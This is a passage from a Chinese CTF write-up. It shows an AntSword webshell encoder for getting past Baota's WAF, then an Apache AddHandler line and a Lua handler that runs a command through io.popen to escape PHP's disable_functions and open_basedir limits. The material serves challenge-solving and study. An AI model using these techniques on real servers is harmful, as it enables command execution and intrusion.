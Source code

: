 ```
  data[randomID] = Buffer.from(data['_']).toString('base64');

  // shell 在接收到 payload 后，先处理 pwd 参数下的内容，
  data[pwd] = data[randomID];

  // ##########    请在上方编写你自己的代码   ###################

  // 删除 _ 原有的payload
  delete data['_'];
  // 返回编码器处理后的 payload 数组
  return data;
}
```

然后用蚂蚁进行链接就可以成功地getshell。这里同时我们也可以扩展一下，在我们的实际运用中，也可以将一些编码的函数在php马儿中打出来，这样我们在实际使用这些马儿的时候，将传输的数据进行编码，然后在马儿中进行编码就可以简单地绕过waf。

最后这道题的实际思路如下:

经过百度，宝塔的实际waf是用lua脚本写的，这一点在https://blog.csdn.net/zhuxiongyin/article/details/98174377这个文章中就可以知道，所以我们这个apache环境必定支持lua模块，这样我们就可以很简单地绕过PHP的disfunc的限制和以及open_dir的限制，简单的一个lua脚本即可绕过

exp如下:

```
AddHandler lua-script .lua
```

```
require "string"

--[[
     This is the default method name for Lua handlers, see the optional
     function-name in the LuaMapHandler directive to choose a different
     entry point.
--]]
function handle(r)
    r.content_type = "text/plain"
    r:puts("Hello Lua World!\n")
    local t = io.popen('/readflag')
    local a = t:read("*all")
    r:puts(a)
    if r.method == 'GET' then
        for k, v in pairs( r:parseargs() ) do
            r:puts( string.format("%s: %s\n", k, v) )
        end
    else
        r:puts("Unsupported HTTP method " .. r.method)
    end
end

```

当然还有强大的wp2：攻击php-fpm
